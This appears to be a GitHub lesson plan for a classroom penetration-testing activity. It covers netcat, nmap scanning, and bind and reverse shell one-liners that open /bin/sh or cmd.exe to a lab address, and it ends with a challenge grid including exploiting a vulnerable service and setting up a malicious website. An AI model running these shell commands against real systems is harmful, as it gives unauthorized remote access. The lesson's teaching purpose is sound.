# Penetration Testing "Hacking" Activity

"Hacking" mini activity


* [Resources](#resources)
* [Lesson Plan](#lesson)
* [Worksheet](#worksheet)

<h2 id="resources">Resources</h2>

* Laptop
* Install nmap on all machines
* (Optional) Mobile device
* (Optional) Fing App
* (Optional) Termux

<h2 id="lesson">Lesson Plan</h2>

<h3>Shells</h3>

	ls/dir
	cd ..

<h3>Netcat</h3>

	nc -nvvv 10.10.10.10 80
	nc -nlvp 4444

<h3>Scanning</h3>

	nc -z -v 10.10.10.10 1-100
	nmap 10.10.10.10
	nmap 10.10.10.0/24

<h3>Bind Shell</h3>

	nc -nlvp 4444 -e /bin/sh
	nc -nlvp 4444 -e cmd.exe

	nc -nvvv 10.10.10.10 4444

<h3>Reverse Shell</h3>

	ncat -nlvp 4444
	nc -nvvv 10.10.10.10 4444 -e /bin/sh 
	nc -nvvv 10.10.10.10 4444 -e cmd.exe

<h3>Cheat Sheet</h2>

|Topic |Syntax |Examples |
|:-----|:--|:--|
|Shells|List files: <code>ls/dir</code><br />Change directory:<code>cd <directory></code>| |
|Netcat|Connect: <code>nc -nv <IP_ADDRESS> <PORT></code><br />Listen: <code>nc -nlvp <PORT></code> |<code>nc -nlvp 4444</code>|
|Scanning| |<code>nc -z -v 10.10.10.10 1-100</code><br /><code>nmap 10.10.10.0/24</code>|
|Bind Shell|Victim listens:<code>nc -nlvp <PORT> -e <SHELL></code><br />Attack connects:<code>nc -nv <IP> <PORT></code>|<code>nc -nlvp 4444 -e /bin/sh</code><br />Attacker<code>nc -nvvv 10.10.10.10 4444</code> |
|Reverse shell|Attacker listens:<code>nc -nlvp <PORT></code><br />Victim connects:<code>nc -nv <IP> <PORT> -e <SHELL></code>| <code>nc -nlvp 4444</code><br />Victim<code>nc -nv 10.10.10.10 4444 -e cmd.exe</code>|
|Exploitation|exploit-db.com<br />github.com<br />google.com| |


<h3>Challenge</h3>

|10 | 50| 100| 500|
|:--|:--|:--|:--|
|Find my laptop|Find hidden service|Exploit vulnerability|Upload a file|
|Find a windows machine|Find open ports|Find OS version|Find an exploit|
|Find my mobile device|Find the hidden port|Download a file|Setup a malicious website for this device|
|Find a printer|Find version of printer|Find a vulnerable service|Print a page on the printer|

<h2 id="worksheet">Worksheet</h2>

 
